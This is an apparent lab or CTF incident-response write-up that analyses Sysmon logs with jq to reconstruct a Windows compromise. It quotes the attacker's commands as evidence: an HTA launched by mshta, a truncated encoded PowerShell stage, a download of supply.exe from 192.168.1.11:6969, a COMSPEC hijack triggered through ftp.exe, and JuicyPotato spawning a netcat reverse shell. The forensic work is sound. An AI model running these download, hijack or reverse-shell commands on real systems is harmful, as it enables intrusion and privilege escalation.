**Scenario:** You are provided with Sysmon logs from a compromised endpoint. Analyse the logs to find out the steps and techniques used by the attacker.

First, I’ll check how many events in the sysmon log file by using jq tool to operate with json file easier:



*Figure 1:*

As shown in Figure 1, events were sorted by frequency of occurrence. We have several common events must to know when conducting an investigation:

- Sysmon Event ID 11 - File Create:



*Figure 2:*

Follow the document \[1\], the File Create event is specially useful to know whether the attacker dropped any payloads in user-writable or hidden directories like C:\Users\\Name\>\AppData\Local\Temp, or dropped malicious scripts, shortcuts, or binaries into Windows Startup folders,... In Figure 1, we have 815 events that have ID 11 and it is the most frequent event.

- Sysmon Event ID 1 - Process Creation \[2\]:



*Figure 3:*

The event Process creation helps Security Analyst in detecting suspicious processes spawned by an executable file.

- Parent-Child Process Mapping: Analysts trace the execution chain (Process Tree) to see which program launched another. For example, seeing a standard office application like word.exe or excel.exe suddenly spawn a command shell like cmd.exe or powershell.exe immediately signals potential macro-based malware or code injection.

- Command-Line Argument Visibility: EDR (Endpoint Detection and Response) and SIEM tools log the exact command-line parameters passed when a process starts. Analysts review these strings to spot obfuscated scripts, downloaded payloads, or hidden execution flags (such as -EncodedCommand in PowerShell).  
  > Detecting Living off the Land Binaries (LOLBins): Attackers often abuse legitimate system tools (like rundll32.exe, certutil.exe, or mshta.exe) to perform malicious actions. Monitoring process creation helps analysts separate normal administrative use of these tools from abuse.



*Figure 4:*

A network connection detected event (in this case is [<u>Sysmon Event ID 3</u>](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?source=Sysmon&eventID=3))) helps a security analyst track, investigate, and stop malicious network activity at the endpoint level by linking raw network traffic directly to specific system processes and users.

At the bottom of each document, the site also provides an example full structure of that event log that can help us in deep understanding of the log.

Next step, I’ll extract information about the created file by the attacker on the system through event ID 11:



*Figure 5:*

The command to run:

| jq 'select(.Event.System.EventID == 11 and (.Event.EventData.Image \| test("Powershell.exe"; "i"))) \| .Event.EventData.TargetFilename' sysmon-events.json |
|------------------------------------------------------------------------------------------------------------------------------------------------------------|

This command will display the full path of the created file in separate lines.

As shown in figure 5, the first 3 lines are simply a built-in feature of Microsoft PowerShell checking for application control policies. Every time PowerShell starts up, it automatically creates a temporary, randomly named script (e.g., \_\_PSScriptPolicyTest_bavjba32.xjg.ps1) in the user's \AppData\Local\Temp directory. It attempts to execute this script to test if AppLocker or Windows Defender Application Control (WDAC) is active.

- If the test script executes successfully: PowerShell grants **Full Language Mode**, allowing access to all Windows APIs.

- If the test script is blocked: PowerShell automatically drops down to **Constrained Language Mode** to secure the environment and limit potential attack surfaces

In the 4th line, there is a suspicious file name supply.exe. I will investigate further related activities associated with this file.

Search supply.exe term in the log file, we can see full event:



*Figure 6:*

As shown in figure 6, we can see the notable point in the CommandLine field. This file was downloaded from an address 192.168.1.11:6969 using powershell. Since the attacker usually downloads and sets up malicious payloads through command line, so I will focus on process creation events to extract the commands that may download or execute the payload.



*Figure 7:*

Breakdown of the command just executed in figure 7:

- EventID == 1 is Sysmon’s Process Create event.

- ParentImage \| test(“powershell\|cmd”; “i”) keeps only processes spawned by PowerShell or cmd.exe (case-insensitive regex).

- .Event.EventData.CommandLine prints just the command line of those child processes.

Two important commands is highlighted in a red box:

- First command: I presented above, the attacker was attempting to download a malicious payload and save as the name supply.exe.

- Second command: The attacker changes the COMSPEC environment variable, which tells Windows which command interpreter to use (normally C:\Windows\System32\cmd.exe). Pointing it at supply.exe means anything that launches a shell through COMSPEC (for example system() calls or batch processing) would run the malicious binary instead of cmd.exe.

This is full log event details of COMPSEC hijacking behavior:



*Figure 8:*

There is a little weird in the parent process: ParentCommandline used cmd.exe in the system32 folder, but the path of ParentImage was in SysWOW64.

| Field             | Meaning                                                                           | Where the value comes from                                      |
|-------------------|-----------------------------------------------------------------------------------|-----------------------------------------------------------------|
| ParentImage       | The actual executable file on disk that was loaded and running as the parent      | Reported by the OS/Sysmon, so it is reliable                    |
| ParentCommandLine | The command-line string the parent was started with (argv\[0\] and any arguments) | Supplied by whoever launched the process, so it can be anything |

**Windows has two cmd.exe binaries:**

- C:\Windows\System32\cmd.exe is the 64-bit version.

- C:\Windows\SysWOW64\cmd.exe is the 32-bit version (WOW64 = Windows 32-bit on Windows 64-bit).

If you launch the 32-bit cmd normally, its command line is usually its own path (C:\Windows\SysWOW64\cmd.exe). Here the image is the 32-bit SysWOW64 binary, but the command line says system32\cmd.exe.

This is simply called **WOW64 file system redirection** \[5\] on Windows: A 32-bit process that asks for C:\Windows\System32\cmd.exe is silently redirected to SysWOW64. So a 32-bit program (for example a 32-bit payload or launcher) that spawned cmd.exe using the System32 path would end up running the SysWOW64 binary, while the recorded command line still shows the System32 path.

Go back to the first events related process creation, we have the suspicious process run before the supply.exe was installed:



*Figure 9:*



*Figure 10:*

Sysmon Event ID 15 = FileCreateStreamHash. Sysmon logs it when a file is created (or downloaded) that carries an alternate data stream (ADS), and it records a hash of that stream’s contents. The one ADS Sysmon watches closely is Zone.Identifier, which Windows adds to files downloaded from the internet. This is the “Mark of the Web” (MOTW).

**Note:** The Mark of the Web (MoTW) is a security metadata feature in Microsoft Windows that flags files downloaded from the internet or other untrusted sources.

=\> In plain terms: Chrome downloaded a file called updater.hta into the user’s Downloads folder.



*Figure 11:*

The part after the second colon is the alternate data stream name. Windows wrote a Zone.Identifier stream onto updater.hta, and this time Sysmon captured its contents:

\[ZoneTransfer\]

ZoneId=3

HostUrl=http://192.168.1.11:6969/updater.hta

Reading the Zone.Identifier contents

| Line                                         | Meaning                                                                                                             |
|----------------------------------------------|---------------------------------------------------------------------------------------------------------------------|
| \[ZoneTransfer\]                             | Header of the Mark of the Web (MOTW) data                                                                           |
| ZoneId=3                                     | Security zone 3 = Internet (0 = local machine, 1 = intranet, 2 = trusted sites, 3 = Internet, 4 = restricted sites) |
| HostUrl=http://192.168.1.11:6969/updater.hta | The exact URL the file was downloaded from                                                                          |

The download source is 192.168.1.11 on port 6969, the same host and port that PowerShell later used to fetch supply.exe. Now, I am sure this is the initial payload that gave access to the attacker.

**Full attack chain reconstructed from this data**

1\. Delivery / initial execution:

"C:\Windows\SysWOW64\mshta.exe" "C:\Users\IEUser\Downloads\updater.hta" {GUID}

mshta.exe executes the malicious HTA.

2\. First-stage payload — obfuscated PowerShell (Base64 + Gzip):

powershell.exe -nop -w hidden -e aQBmAC...

This is a Base64-encoded PowerShell command (-e/-enc flag), run with -w hidden (hidden window) — classic fileless/obfuscated execution. Decoding this (Base64 → UTF-16LE text) reveals a script that GZip-decompresses another embedded payload — you can see the tell-tale H4sIAPgi... string, which is the Base64 signature of a Gzip stream (H4sI = gzip magic bytes in Base64).

3\. Second-stage download:

powershell -c INvoke-WebRequest -Uri http://192.168.1.11:6969/supply.exe -OutFile C:\Windows\Temp\supply.exe

Confirms exactly what you found earlier — downloading supply.exe from the attacker's server on port 6969.

4\. COMSPEC hijack:

cmd \c set comspec=C:\windows\temp\supply.exe

5\. LOLBIN trigger — ftp.exe invoked:

"ftp" (appears 5 times)

This is the moment ftp.exe gets launched. Per the mechanism explained earlier — typing ! inside the FTP prompt triggers a shell-out via COMSPEC, which now points to supply.exe instead of cmd.exe.

=\> We can run below command to see all command line attacker used:

*jq -s -r 'sort_by(.Event.EventData.UtcTime)\[\] \| select(.Event.EventData.CommandLine != null) \| "\[\\.Event.EventData.UtcTime)\] \\.Event.EventData.CommandLine)"' sysmon-events.json*

jq -r 'select(.Event.System.EventID==11) \| select(.Event.EventData.Image \| test("supply.exe")) \| .Event.EventData.TargetFilename' sysmon-events.json

I also want to find the programming language used in the malware. I will find signature of the payload to know what language is it written:  
*Figure 12:*

1\. The \_MEI prefix is the single strongest clue.  
\_MEI is the signature temp-folder naming pattern created by PyInstaller — a tool that packages a Python script (plus the Python interpreter itself and all its dependencies) into a single standalone .exe. "MEI" stands for "Meta Executable Installer," PyInstaller's internal bootloader mechanism. Every time a PyInstaller-built executable runs, it extracts itself into a fresh \_MEI###### folder in Temp before executing — which is exactly the repeating pattern you're seeing (a new randomly-numbered \_MEI folder practically every single time supply.exe was launched).

2\. python27.dll confirms the runtime directly.  
This isn't a coincidental or generic system DLL — it's literally the Python 2.7 interpreter, bundled inside the executable. No non-Python program would ever need to extract this file.

3\. msvcm90.dll, msvcp90.dll, msvcr90.dll support the theory.

These are Microsoft Visual C++ 2008 (v9.0) runtime libraries — required because CPython 2.7 itself was built/compiled using Visual C++ 2008. So any bundled Python 2.7 interpreter needs these runtime DLLs alongside it to function.

! Note: **Visual C++ ≠ a programming language of its own**

**Visual C++ is Microsoft's compiler and development toolset for the C and C++ programming languages** — not a separate language itself. Think of it this way:

- **C** and **C++** are the actual programming languages — the syntax, grammar, and rules for writing code.

- **Visual C++** is *one specific tool* (made by Microsoft, bundled into Visual Studio) that takes C or C++ source code and **compiles it** into a working Windows executable.

It's the same relationship as, say, GCC or Clang are to C/C++ on Linux — different compilers, same underlying languages. Visual C++ is just Microsoft's version, tightly integrated with Windows.



*Figure 13:*

Read more in \[6\]

CPython 2.7 (the official Python 2.7 interpreter) was itself built using Visual C++ 2008. This is a well-documented, specific fact about how Python 2.7 was compiled by the Python core team — they used that particular compiler version for that release cycle. So any program that embeds/bundles the real Python 2.7 interpreter (like a PyInstaller-built .exe) must also carry these same three runtime DLLs alongside it, because python27.dll itself depends on them to function.

=\> The programming language the malware used is Python.



*Figure 14:*

Finally, I will identify the port the attacker attempts to get reverse shell

Let’s look at a long command I just extracted in Figure 14. The executable file name juicy.exe is the second-stage payload, which is downloaded after supply.exe. The JuicyPotato is a Windows local privilege escalation (LPE) hacking tool \[7\] used by security professionals and threat actors to elevate privileges from a Windows Service Account to the highest level of access: NT AUTHORITY\SYSTEM.

Two notable ports were identified within the executed command:

- Port 9999 (The Exploit Mechanism)

<!-- -->

- \+ Location: Local (internal to the compromised machine).

  > \+ Function: JuicyPotato opens this port to act as a fake local RPC/COM server. It tricks the Windows OS into attempting to authenticate with a high-privilege system account against this specific local port. By intercepting this authentication attempt, JuicyPotato steals the SYSTEM token. This port is only used for the mechanics of the privilege escalation and does not generate external network traffic.

<!-- -->

- Port 9898 (The Command & Control)

<!-- -->

- \+ Location: Remote (on the attacker's machine at 192.168.1.11).

  > \+ Function: This is the port where the attacker is actively waiting for a connection. Once the JuicyPotato exploit succeeds and gains SYSTEM privileges, it triggers nc.exe (Netcat) to reach out across the network to connect to this remote IP and port, handing the attacker a highly privileged remote command prompt.

# COMPLETION:

#  

# REFERENCES:

\[1\] Sysmon Event ID 11: [<u>https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=90011</u>](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=90011)

\[2\] Sysmon Event ID 1: [<u>https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?source=Sysmon&eventID=3</u>](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?source=Sysmon&eventID=3)

\[3\] Sysmon Event ID 3: [<u>https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?source=Sysmon&eventID=3</u>](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?source=Sysmon&eventID=3)

\[4\] What are PSScriptPolicyTest Powershell Files?

[<u>https://knowledge.broadcom.com/external/article/285634/what-are-psscriptpolicytest-powershell-f.html</u>](https://knowledge.broadcom.com/external/article/285634/what-are-psscriptpolicytest-powershell-f.html)

\[5\] WOW64 Redirection: [<u>https://developer.bigfix.com/action-script/reference/execution/action-uses-wow64-redirection.html</u>](https://developer.bigfix.com/action-script/reference/execution/action-uses-wow64-redirection.html)

